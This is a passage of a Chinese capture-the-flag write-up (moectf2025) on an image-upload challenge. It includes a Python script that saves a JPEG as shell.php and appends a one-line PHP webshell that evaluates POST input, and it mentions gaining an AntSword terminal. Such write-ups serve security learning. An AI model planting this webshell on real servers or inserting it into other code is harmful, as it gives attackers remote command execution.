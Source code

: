 配置后测试链接无误，得到蚁剑终端，获取环境变量，搞定

![image.png](../../assets/images/moectf2025wp/image_13.png)

---

## [图片马] 13 第十三章 通幽关·灵纹诡影

本题考图片马 [https://blog.csdn.net/weixin_42789937/article/details/128268458](https://blog.csdn.net/weixin_42789937/article/details/128268458)

由于未对拓展名做出要求，我们生成 .php 后缀的符合要求的图片，附加上一句话木马即可

`FF D8 FF` 是 JPEG 文件格式的“魔术数字”或文件签名的一部分,不用刻意去管。

```python
# Create a tiny valid JPEG and embed a PHP webshell both as a JPEG comment and appended to the end.

from PIL import Image
from pathlib import Path
out_path = Path("shell.php")

# 1) Make a tiny JPEG
img = Image.new("RGB", (16, 16), (123, 200, 50))
php_payload = b'<?php @eval($_POST[\'cmd\']);?>'

img.save(out_path, format="JPEG", quality=80)

# 2) Append the same payload to the end of the file (survives most image operations)
with open(out_path, "ab") as f:
    f.write(b"\n")
    f.write(php_payload)
    f.write(b"\n")

```
